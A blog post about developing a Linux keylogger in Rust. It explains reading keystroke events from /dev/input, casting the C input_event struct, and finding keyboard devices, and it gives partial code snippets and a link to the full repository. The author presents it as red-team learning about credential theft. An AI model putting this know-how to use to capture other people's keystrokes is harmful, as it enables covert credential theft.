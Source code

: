 ```yaml
---
layout: single
title: Developing a keylogger
---
```


To learn about credentials stealing, I have decided to develop a keylogger on Linux. I decided to use Rust for the task since this language is quite different
from the usual C and deals with memory in a slightly different way, which will be important for keylogger. Moreover, keyloggers can be pretty useful for red
teamers since this is an easy way to steal credentials to services that should be private.

## How do keyloggers work?

Before getting to implementation I had to understand how keylogging works. In essence, each operating system has a multitude of different approaches for
logging keystrokes. In Windows for example, one can use the [SetWindowsHookEx](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)
function to inject a hook to intercept keystrokes, just like that. There are also hardware keyloggers that could be physically plugged inbeetwen the keyboard and
the computer. However, I wanted to see how it would work on Linux, because it has a slightly more raw approach to logging keys.

## Marshalling

Unix-like systems follow the well known philosophy: 'Everything is a file'. Essentially, this means that almost all system internals are exposed as a stream of bytes
accessible through the OS' filesystem API. Since GNU/Linux was written mainly in C, the files representing system internals are C structures most of the time.
For example, the file which exposes keystroke events at `/dev/input/eventX` is in fact a stream of bytes which make up the the `input_event` struct.
This is the original, C version of the struct:

```c
struct input_event {
    struct timeval time;
    unsigned short type;
    unsigned short code;
    unsigned int value;
};
```

If a programming language would want to work with an input event, it would need to cast the bytes making up the struct into it's own binding of the C library. In Rust,
the official `libc` implementation defines this version of `input_event` struct:

```rust
pub struct input_event {
    pub time: ::timeval,
    pub type_: ::__u16,
    pub code: ::__u16,
    pub value: ::__s32,
}
```

As depicted, the Rust's version takes the same amount of memory as the C struct - 24 bytes on my computer. So in order to be able to use the `input_event` struct
in Rust, it needs to be transmuted from an _unsafe_ byte array to a _managed_ one, like that:

```rust
use libc::input_event;

// Get the size of the Rust's input_event struct
const EV_SIZE: usize = mem::size_of::<input_event>();
let mut buf: [u8; EV_SIZE] = unsafe { mem::zeroed() };

// Cast the C struct to empty array
let ev = unsafe { mem::transmute::<[u8; EV_SIZE], input_event>(buf) };
```

This approach requires a bit more knowledge from the programmer, but if somebody is going down into system internals they need to understand it in-depth.
Moreover, in case of some custom or not-yet-implemented C data types, the programmer has freedom to create their own bindings for the said structures.

## Implementation

Since I am using a laptop with keyboard connected to it, I wanted to be sure that my keylogger would work with all input devices on the computer.

```rust
const BUS_PATH: &str = "/proc/bus/input/devices";

fn parse_bus(&self) -> Vec<String> {
    let bus = File::open(BUS_PATH).unwrap();
    let lines = Box::new(BufReader::new(bus).lines());

    let mut handlers = Vec::<String>::new(); // this vector will store keyboard handlers
    let entry = RefCell::new(String::new());
    let re = Regex::new(r"(?m)(event\d+)").unwrap();

    for line in lines {
        // ... skipping over some code

        if entry.borrow().contains("EV=120013") { 
            let entry_guard = entry.borrow();
            if let Some(captures) = re.captures(&entry_guard) {  // get the event name using regex
                if let Some(m) = captures.get(0) { handlers.push(m.as_str().to_string()) }
            }
        } 

        // ...
    }

    return handlers;
}
```

As depicted in the snippet above, the keylogger enumerates through all devices that contain `EV=120013` in their specification,
which in Linux means that these are keyboards. I am going to skip over the whole implementation, since it is quite big, but
details can be seen in my [keylogger repository](https://github.com/malpa222/keylogger/).

As one more precaution, I had to ensure that the program is being run as root with this simple check:

```rust
fn start_logging(&self) {
    if unsafe { libc::geteuid() } != 0 { panic!("Must run as root") }

    self.log_keystrokes();
}
```

Below, you can take a look at a demo. The keylogger is intercepting and printing out my keystrokes.

{% include video id="772185525" provider="vimeo" %}